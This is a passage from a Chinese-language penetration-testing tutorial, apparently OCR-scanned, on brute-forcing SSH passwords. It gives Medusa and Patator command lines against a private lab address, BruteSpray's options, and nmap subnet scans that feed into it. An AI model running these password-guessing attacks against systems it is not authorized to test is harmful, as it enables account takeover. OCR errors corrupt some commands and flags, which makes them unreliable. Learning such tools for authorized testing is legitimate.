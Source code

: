 ## 2.2 破解SSH密码
`root@kali:~# medusa -M ssh -h 192.168.106.134 -U root -P passlist. txt`

# 三、Patator
Patator，强大的命令行暴力破解器。

## 3.1 破解SSH密码
```bash
root@kali:~# patator ssh_ login --help
Patator v0.6 (http://code . google. com/p/patator/)
Usage: ssh_ login <module-options ...> [global-options ...]
Examples:
ssh_ login host=10.0.0.1 user= root password=FILEO 0=pas swords.txt -X
ignore: mesg-' Authentication failed. '
root@kali:~# patator ssh_ login host=192.168. 106.134 user=root password=FILE0 0=passlist . txt
root@kali:~# patator ssh_ login host=192. 168.106.134 user= root password=FILE0 0=passlist.txt \
-X ignore :mesg= ' Authentication failed. '
```

# 四、BrutesPray
BruteSpray是一款基于Nmap扫描输出的gnmap/XMl文件，自动调用Medusa对服务进行爆破。
```
root@kali:~# apt-get update
root@kali:~# apt-get install brutespray
```

## 4.1 语法参数
 - -f FILE, --file FILE 参数后跟一 个文件名，解析nmap输出的GNMAP或者XML文件
 - -o OUTPUT, --output OUTPUT 包含成功尝试的目录下
 - -s SERVICE, --service SERVICE 参数后跟-个服务名，指定要攻击的服务
 - -t THREADS, --threads THREADS参 数后跟一数值， 指定medus a线程数
 - -T HOSTS, --hosts HOSTS K参数后跟一数值,指定同时测试的主机数
 - -U USERLIST, --userlist USERLIST 参数后跟用户字典文件
 - -P PASSLIST, --passlist PASSLIST 参数后跟密码字典文件
 - -u USERNAME, --username USERNAME 参数后跟用户名,指定一个用户名进行爆破
 - -p PASSWORD， --password PASSWORD 参数后跟密码,指定一个密码进行爆破
 - -C，--continuous 成功之后继续爆破
 - -i， -- interactive 交互模式

## 4.2 nmap扫描
```bash
root@kali:~# nmap -V 192.168.106.0/24 -oX nmap 。xml
root@kali:~# nmap -A"-p22 -V 192.168.106.0/24 -oX 22. xml
root@kali:~# nmap -sP 192.168.106.0/24 -oX nmaplive. xml
root@kali:~# nmap -sV -0 192.168.106.0/24 -oX nmap. xml
```
